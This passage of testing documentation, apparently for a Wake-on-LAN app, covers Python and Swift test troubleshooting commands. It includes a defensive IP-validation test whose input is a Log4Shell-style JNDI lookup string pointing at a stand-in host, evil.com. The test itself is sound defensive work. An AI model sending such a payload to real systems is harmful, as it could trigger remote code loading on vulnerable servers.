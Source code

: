 ### DoS Protection Tests
```python  
def test_validate_ip_security_cases():
    """Test IP validation DoS protection"""
    # Large input handling
    assert not validate_ip("1.2.3.4" + "x" * 1000)
    
    # Malicious format attempts
    assert not validate_ip("${jndi:ldap://evil.com/x}")
```

## 🚨 Troubleshooting Tests

### Common Issues

**Python Tests Failing:**
```bash
# Check Python version (3.7+ required)
python3 --version

# Install pytest if missing
pip3 install pytest

# Check for import errors
python3 -c "import socket, json, sys"
```

**Swift Tests Failing:**
```bash
# Verify Xcode installation
xcode-select --print-path

# Check project integrity
xcodebuild -list -project "WoL Manu.xcodeproj"

# Clean build folder
xcodebuild clean -project "WoL Manu.xcodeproj" -scheme "WoL Manu"
```

**Test Runner Issues:**
```bash  
# Make executable
chmod +x run_all_tests.sh

# Check dependencies
which python3 xcodebuild
```

### Debug Mode

Enable verbose output for detailed debugging:

```bash
# Python tests with debug
python3 -m pytest Tests/test_wol_server.py -v -s

# Swift tests with detailed output  
xcodebuild test -project "WoL Manu.xcodeproj" -scheme "WoL Manu" -destination "platform=macOS" -verbose

# Test runner debug mode
DEBUG=1 ./run_all_tests.sh
```
